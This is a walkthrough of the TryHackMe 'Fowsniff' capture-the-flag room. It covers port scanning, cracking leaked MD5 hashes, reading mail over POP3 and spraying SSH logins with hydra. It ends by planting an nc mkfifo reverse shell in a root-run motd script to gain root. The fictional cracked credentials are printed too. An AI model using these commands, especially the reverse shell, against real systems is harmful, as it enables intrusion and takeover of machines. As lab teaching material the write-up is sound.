




# Fowsniff CTF
**Date:** April 26th 2022

**Author:** j.info

**Link:** [**Fowsniff CTF**](https://tryhackme.com/room/ctf) on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- What was seina's password to the email sevice?
- Looking through her emails, what was the temporary password set for her?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.196.26`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: TOP RESP-CODES USER UIDL PIPELINING SASL(PLAIN) AUTH-RESP-CODE CAPA
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: more SASL-IR ID ENABLE have OK LITERAL+ LOGIN-REFERRALS post-login IDLE AUTH=PLAINA0001 listed Pre-login capabilities IMAP4rev1
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.196.26 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/images               (Status: 200) [Size: 1335]
/assets               (Status: 200) [Size: 1497]
/index.html           (Status: 200) [Size: 2629]
/README.txt           (Status: 200) [Size: 1288]
/robots.txt           (Status: 200) [Size: 26]  
/security.txt         (Status: 200) [Size: 459] 
/LICENSE.txt          (Status: 200) [Size: 17128
```

<br>

## Website Digging

Visiting the main page:



<br>

Looking at **robots.txt** shows:

```
User-agent: *
Disallow: /
```

And **security.txt**:

```
       WHAT SECURITY?

            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |
|       .oooO                |
|        (   )   Oooo.       |
+---------\ (----(   )-------+
           \_)    ) /
                 (_/


Fowsniff Corp got pwn3d by B1gN1nj4!


No one is safe from my 1337 skillz!
```

Both **README.txt** and **LICENSE.txt** don't provide anything useful, and neither does viewing the page source code. We're able to look around in the **images** and **assets** folders but I also don't find anything useful.

<br>

## Twitter / Pastebin

The main page mentioned that the hackers had also taken over their [**Twitter account (@fowsniffcorp)**](https://twitter.com/fowsniffcorp?lang=en) so I search and am able to find it.



<br>

On the Twitter page is a [**link to pastebin**](https://pastebin.com/NrAqVeeX) and a statement that they're dumping all of the passwords from the breach there. Visiting the link shows us:

```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4
 
-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.
 
All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.
 
Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

<br>

## Password Cracking

So we have 9 accounts with password hashes to check out that are all in **MD5** so this shouldn't take long to handle. I create a file called **hash.txt** with only the hashes in it and run it through **hashcat**:

`hashcat -m 0 -w3 -D 1,2 hash.txt rockyou.txt`

```
90dc16d47114aa13671c697fd506cf26:scoobydoo2
4d6e42f56e127803285a0a7649b5ab11:orlando12
1dc352435fecca338acfd4be10984009:apples01
19f5af754c31f1e2651edde9250d69bb:skyler22
8a28a94a588a95b80163709ab4313aa4:mailcall
f7fd98d380735e859f8b2ffbbede5a7e:07011972
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
```

And mapping usernames to passwords shows us that 8 out of the 9 were cracked with the only one missing being user **stone**:

```
seina:scoobydoo2
parede:orlando12
tegel:apples01
baksteen:skyler22
mauer:mailcall
sciana:07011972
mursten:carp4ever
mustikka:bilbo101
```

I try to run a brute force mask attack against the **stone** user, as well as try a few things like **crackstation** and other sites but don't have any luck.

<br>

## POP3 Mail

I tried to login via SSH with the credentials we have but am unable, so I try to check to see if I can access any email on the open POP3 port. I'm able to login as **seina** and in her email is a temporary password we can use to **ssh** over to the system:

`telnet 10.10.196.26 110`

```
Trying 10.10.196.26...
Connected to 10.10.196.26.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```

The email was sent to the entire team so it looks like the password was the same for everyone. The other email doesn't contain anything useful.

<br>

## System Access

I try to ssh over as **seina** but the password does not work for her.

I make a quick username text file and then **hydra** against ssh with it to find who I can login with:

`hydra -L user.txt -p S1ck3nBluff+secureshell 10.10.196.26 ssh`

```
22][ssh] host: 10.10.196.26   login: baksteen:   password: S1ck3nBluff+secureshell
```

`ssh baksteen@10.10.196.26`

```
baksteen@10.10.196.26's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
```

<br>

## System Enumeration

There is a directory called **Maildir** inside of his home directory that contains the email we just looked at but not much else. A **term.txt** file asks the question:

```
I wonder if the person who coined the term "One Hit Wonder" 
came up with another other phrases.
```

Which seems like a rabbit hole if I've ever seen one. No thank you!

All users we've seen previously have home directories in **/home** but we can't access any of them.

I check out **/var/www/html** and don't find any config files laying around.

I check for **SUID** files but nothing out of the ordinary. Same goes for **SGID**.

Nothing interesting in **/var/backups** or **/tmp**.

Checking out **/opt** shows us a directory called **cube** with 777 permissions:

```
drwxrwxrwx  2 root root 4096 Mar 11  2018 cube
```

Inside of that directory is a shell script called **cube.sh**:

```
-rw-rwxr-- 1 parede users  851 Mar 11  2018 cube.sh
```

Checking `id` shows us that we're a member of the **users** group so we should be able to write to that file:

```
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

Looking at the script:

```
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

Look familiar? That was the login banner when we connected over via ssh.

Checking out the **/etc/update-motd.d/00-header** file shows us:

```
-rwxr-xr-x  1 root root 1248 Mar 11  2018 00-header
```

And inside:

```
#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```

Well, that certainly seems like an easy escalation path! Upon logging in the **root user** runs the **cube.sh** script, which we can modify.

<br>

## Root

I modify **cube.sh** to include your standard **nc mkfifo** reverse shell so that next time I ssh over we should get a reverse shell back and escalate to root:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <MY IP> 4444 >/tmp/f
```

I start a listener up on my system with:

`nc -nvlp 4444`

I logout of the system, and then ssh back over with the same user, and immediately catch a reverse shell as root:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.196.26] 34498
bash: cannot set terminal process group (1323): Inappropriate ioctl for device
bash: no job control in this shell
root@fowsniff:/# whoami
whoami
root
root@fowsniff:/#
```

Looking in **/root** shows us a **flag.txt** which has the following inside:

```
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```

<br>

## Objectives

Almost all of the objectives didn't require an answer but the 2 that did were answered by cracking the password for **seina** and then reading the email with the **ssh password** in it on the POP3 server.

<br>

And with that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a post on **Twitter** from the hackers saying they dumped the breached passwords to **pastebin**
- Collecting the username and passwords from **pastebin**
- Cracking the passwords using **hashcat**
- Logging into a **Pop3 email server** via **telnet** and finding **ssh credentials**
- Using **hydra** to try and login as all users to figure out which user still had the default password found in the email
- Finding a world writeable directory in **/opt** with a bash script we can modify
- Looking at the **motd header** and finding that the bash script we can write to is run as root upon login
- Modifying the bash script to include a **reverse shell** back to us as root and then logging back into the system to trigger it

<br>

Many thanks to:
- [**ben**](https://tryhackme.com/p/ben) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)